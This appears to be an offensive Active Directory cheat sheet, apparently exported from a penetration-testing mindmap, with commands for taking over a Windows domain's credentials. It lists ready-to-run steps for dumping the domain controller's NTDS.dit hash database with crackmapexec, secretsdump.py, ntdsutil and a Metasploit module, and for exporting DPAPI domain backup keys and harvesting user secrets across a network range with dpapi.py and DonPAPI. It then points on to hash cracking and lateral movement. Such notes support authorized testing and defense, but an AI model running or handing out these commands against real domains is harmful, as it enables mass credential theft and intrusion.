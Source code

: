 # Domain Admin


## Domain admin
	🔥dump ntds.dit
		cme smb <dcip> -u <user> -p <password> -d <domain> --ntds
		secretsdump.py '<domain>/<user>:<pass>'@<ip>
		ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
			secretsdump.py  -ntds ntds_file.dit -system SYSTEM_FILE -hashes lmhash:nthash LOCAL -outputfile ntlm-extract
		windows/gather/credentials/domain_hashdump
		
			Lateral move
			Crack Hash
	dpapi.py backupkeys -hashes ':<hash>' -t Administrator@<dc_ip> --export  

    # note : dpapi.py != DonPAPI
		DonPAPI -pvk <domain_backupkey.pvk> - H ':<hash>' <domain>/<user>@<ip_range>

	Credentials

